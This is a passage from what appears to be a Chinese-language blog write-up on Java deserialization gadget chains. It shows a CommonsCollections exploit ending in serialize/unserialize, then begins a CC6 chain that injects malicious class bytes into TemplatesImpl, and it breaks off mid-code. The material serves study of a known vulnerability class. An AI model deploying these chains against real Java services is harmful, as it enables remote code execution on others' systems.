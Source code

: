 ```java=
  
 Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader()  
                , new Class[]{Map.class}, invocationHandler);  
 invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Override.class, proxyMap);  
  
 serialize(invocationHandler);  
 unserialize("ser.bin");  
 }  
  
    public static void serialize(Object obj) throws IOException {  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  
 oos.writeObject(obj);  
 }  
  
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));  
 Object obj = ois.readObject();  
 return obj;  
 }  
}
```
![](https://i.imgur.com/HU5Kj59.png)

## CC6 链的 TemplatesImpl 实现方法
```java=
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.keyvalue.TiedMapEntry;  
import org.apache.commons.collections.map.LazyMap;  
  
import java.io.*;  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.HashMap;  
import java.util.Map;  
  
// CC6 Yso 的正版链子，用 TemplatesImpl 实现 EXPpublic class CC6TemplatesEXP {  
    public static void main(String[] args) throws Exception{  
        TemplatesImpl templates = new TemplatesImpl();  
 Class templatesClass = templates.getClass();  
 Field nameField = templatesClass.getDeclaredField("_name");  
 nameField.setAccessible(true);  
 nameField.set(templates, "Drunkbaby");  
  
 Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
 bytecodesField.setAccessible(true);  
 byte[] evil = Files.readAllBytes(Paths.get("E://Calc.class"));  
 byte[][] codes = {evil};  
 bytecodesField.set(templates, codes);  
  
 Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
 tfactoryField.setAccessible(true);  
 tfactoryField.set(templates, new TransformerFactoryImpl());  
 //     templates.newTransformer();  
 Transformer[] transformers = new Transformer[]{  
```